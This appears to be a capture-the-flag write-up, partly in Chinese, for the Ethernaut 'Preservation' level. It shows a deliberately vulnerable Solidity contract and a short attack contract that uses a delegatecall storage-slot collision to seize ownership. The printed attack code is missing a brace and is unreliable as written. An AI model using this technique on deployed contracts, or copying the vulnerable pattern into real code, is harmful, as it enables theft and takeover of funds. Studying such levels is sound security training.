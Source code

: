 # Preservation

> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
>
> The goal of this level is for you to claim ownership of the instance you are given.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## 攻击思路

Preservation 合约使用 delegatecall 时只会使用 LibraryContract合约的代码逻辑，不会也不能修改 LibraryContract合约的变量。LibraryContract合约寻找变量时会按照 LibraryContract合约变量所在的插槽寻找 Preservation合约对应插槽中的变量。

## 攻击流程

首先调用 Preservation合约 的 setFirstTime函数，函数参数为： Attack合约的地址。此时，Preservation合约中的timeZone1Library变量就修改为了Attack合约的地址。然后再调用 Preservation合约的 setFirstTime函数，函数参数为：我的账户地址。

```solidity
contract Attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 

    function setTime(uint _time) public 
       owner = address(_time);
    }
}

```

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.